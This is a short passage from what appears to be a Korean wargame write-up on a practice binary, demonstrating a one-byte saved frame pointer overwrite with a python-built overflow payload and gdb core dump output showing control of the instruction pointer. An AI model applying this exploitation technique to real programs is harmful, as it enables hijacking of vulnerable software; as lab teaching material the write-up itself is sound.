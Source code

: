 위와 같이 `0x42424242` 주소를 알지 못해 에러메시지를 표시한다. 그러면 -4한 값을 넣어주면?

```
[golem@localhost golem]$ ./aarkknight `python -c 'print "A"*4+"B"*36+"\x80"'`
AAAABBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBB?퓹? ♠?왠?옹   ♥@☻
Segmentation fault (core dumped)
[golem@localhost golem]$ gdb -q -c core
Core was generated by `./aarkknight AAAABBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBB'.
Program terminated with signal 11, Segmentation fault.
#0  0x41414141 in ?? ()
```

buffer배열의 첫 4byte("AAAA")를 실행하려는 모습을 볼 수 있다.

이처럼 sfp값의 1byte만을 조작해서 프로그램의 흐름을 바꿀수 있게 된다.

-----
